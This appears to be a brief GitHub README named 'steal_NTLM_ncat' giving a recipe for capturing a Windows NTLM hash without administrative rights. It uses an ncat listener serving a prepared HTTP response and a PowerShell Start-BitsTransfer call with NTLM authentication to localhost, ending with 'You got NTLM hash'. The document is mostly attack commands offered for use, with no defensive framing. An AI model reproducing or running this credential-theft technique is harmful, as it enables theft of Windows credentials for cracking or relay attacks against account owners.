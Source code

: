 # steal_NTLM_ncat

Rules:

* No administrative rights needed.

* Need a way to serve HTTP headerS back uppon request, NCAT is used in this example.

* Need a native windows http client, powershell is being used in this example.





1. Start a CMD window and type:
 `ncat -l 8080 --keep-open < hello.html`
 **[No need to allow on firewall prompt]**

2. Start a Powershell window and type:

`Start-BitsTransfer -Authentication NTLM -Source http://127.0.0.1:8080 -Description http://127.0.0.1:8080`

3. Result:
You got NTLM hash__



Can be changed to Negotiate as well, but didn't see the point
base
